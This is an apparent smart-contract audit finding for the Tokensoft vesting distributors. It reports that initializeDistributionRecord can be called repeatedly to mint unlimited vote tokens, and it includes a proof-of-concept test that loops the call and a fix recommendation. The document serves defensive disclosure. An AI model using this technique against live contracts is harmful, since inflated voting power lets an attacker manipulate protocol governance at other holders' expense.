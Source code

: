 # Anyone on the merkle tree can spam initializeDistributionRecord and get himself any number of voteTokens

## Summary
Anyone on the merkle tree can spam `initializeDistributionRecord` and get himself any number of voteTokens

## Vulnerability Detail
Due to the poor checks on [AdvancedDistributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85) anyone on the merkle tree can just call `initializeDistributionRecord` on most of the distributors and get himself minted some vote tokens.

Example is [TrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol) where any user that is on the merkle tree can call [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol#L39-L49)

```jsx
  function initializeDistributionRecord(
    uint256 index, // the beneficiary's index in the merkle root
    address beneficiary, // the address that will receive tokens
    uint256 amount, // the total claimable by this beneficiary
    bytes32[] calldata merkleProof
  )
    external
    validMerkleProof(keccak256(abi.encodePacked(index, beneficiary, amount)), merkleProof)
  {
    _initializeDistributionRecord(beneficiary, amount);
  }
  ```
  From then on [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L85C1-L85C1) will forward the call to [AdvancedDistributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol) where the man issue is. `_initializeDistributionRecord` calls super on the [Distributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/Distributor.sol)'s  [_initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/Distributor.sol#L47-L59) where nothing is updated, since the value is the same, and them **AdvancedDistributor**'s [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85) mints the vote tokens, without having the sanity check for if there is any update on to the user reward token balance.
  
  ```jsx
    function _initializeDistributionRecord(
    address beneficiary,
    uint256 totalAmount
  ) internal virtual override {
    super._initializeDistributionRecord(beneficiary, totalAmount);
    _mint(beneficiary, tokensToVotes(totalAmount));//@audit always minting on input
  }
```

| Vulnerable contracts                                                                                                                                               |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [TrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol)                           |
| [PriceTierVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/PriceTierVestingMerkle.sol)                       |
| [ContinuousVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/ContinuousVestingMerkle.sol)                     |
| [CrosschainTrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/CrosschainTrancheVestingMerkle.sol)       |
| [CrosschainContinuousVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/CrosschainContinuousVestingMerkle.sol) |                      |


<details> <summary>  PoC </summary>

Place it in [TrancheVestingMerkle.test.ts](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/test/distributor/TrancheVestingMerkle.test.ts).
```jsx
  it.only("A buyer can initialize before claimingXXX", async () => {
    const user = eligible2
    const distributor = partiallyVestedDistributor
    const [index, beneficiary, amount] = config.proof.claims[user.address].data.map(d => d.value)
    const proof = config.proof.claims[user.address].proof

    // 50% of tokens have already vested
    const claimable = BigInt(amount) / 2n;
    for(let i = 0;i<5;i++){
      await distributor.initializeDistributionRecord(index, beneficiary, amount, proof)
    }

    let distributionRecord = await distributor.getDistributionRecord(user.address)

    expect(distributionRecord.total.toBigInt()).toEqual(
      BigInt(config.proof.claims[user.address].data[2].value)
    )
    // no votes prior to delegation
    expect((await distributor.getVotes(user.address)).toBigInt()).toEqual(0n)

    // delegate to self
    const myDistributor = await ethers.getContractAt("TrancheVestingMerkle", distributor.address, user);
    await myDistributor.delegate(user.address)

    expect(distributionRecord.total.toBigInt()).toEqual(
      BigInt(config.proof.claims[user.address].data[2].value)
    )

    expect(distributionRecord.initialized).toEqual(true)
    console.log("User vote token Balance: " + (await distributor.balanceOf(user.address)).toBigInt());
    console.log("Tokens that have vested: " + (claimable));
  })
  ```
</details>
   
## Impact
Anyone can mint unlimited number or vote tokens.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85
## Tool used

Manual Review

## Recommendation
You can make the external callable functions have an initialized modifier (or some prevention from multiple calls) or have a sanity check in the **AdvancedDistributor**